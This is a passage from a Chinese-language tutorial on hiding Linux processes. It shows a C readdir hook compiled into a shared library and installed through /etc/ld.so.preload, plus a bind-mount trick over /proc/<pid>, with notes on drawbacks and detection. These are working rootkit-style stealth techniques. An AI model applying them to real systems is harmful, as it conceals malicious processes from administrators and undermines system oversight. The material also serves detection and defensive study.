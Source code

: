 ```c
    while(1)                                                            \
    {                                                                   \
        dir = original_##readdir(dirp);                                 \
        if(dir) {                                                       \
            char dir_name[256];                                         \
            char process_name[256];                                     \
            if(get_dir_name(dirp, dir_name, sizeof(dir_name)) &&        \
                strcmp(dir_name, "/proc") == 0 &&                       \
                get_process_name(dir->d_name, process_name) &&          \
                strcmp(process_name, process_to_filter) == 0) {         \
                continue;                                               \
            }                                                           \
        }                                                               \
        break;                                                          \
    }                                                                   \
    return dir;                                                         \
}

DECLARE_READDIR(dirent64, readdir64);
DECLARE_READDIR(dirent, readdir);
```

以上代码非常巧妙的运用了宏定义函数以及#号的用法，使得少了很多代码量，同时定义了64位版本的readdir64以及readdir函数。

#### 编译成动态链接库测试

```bash
$ gcc -Wall -fPIC -shared -o libprocesshider.so processhider.c -ldl
$ mv libprocesshider.so /usr/local/lib/
$ echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```

这样一来，ps  top命令就找不到进程的任何踪迹了！

#### 优缺点

优点：相较于通过`argv[]`及`prctl`对进程名及参数进行修改，这种方法彻底隐藏了ps、top中进程的信息，看不到pid

缺点：proc目录下还是会存在我们进程的pid目录



### 二、挂载覆盖/proc/pid目录

利用mount —bind 将另外一个目录挂载覆盖至/proc/目录下指定进程ID的目录，我们知道ps、top等工具会读取/proc目录下获取进程信息，如果将进程ID的目录信息覆盖，则原来的进程信息将从ps的输出结果中隐匿。

例如隐藏进程id为42的进程信息：

`mount -o bind /empty/dir /proc/42`

#### 优缺点：

缺点比较明显

cat /proc/pid/mountinfo 或者cat /proc/mounts 即可知道是否有利用mount —bind 将其他目录或文件挂载至/proc下的进程目录
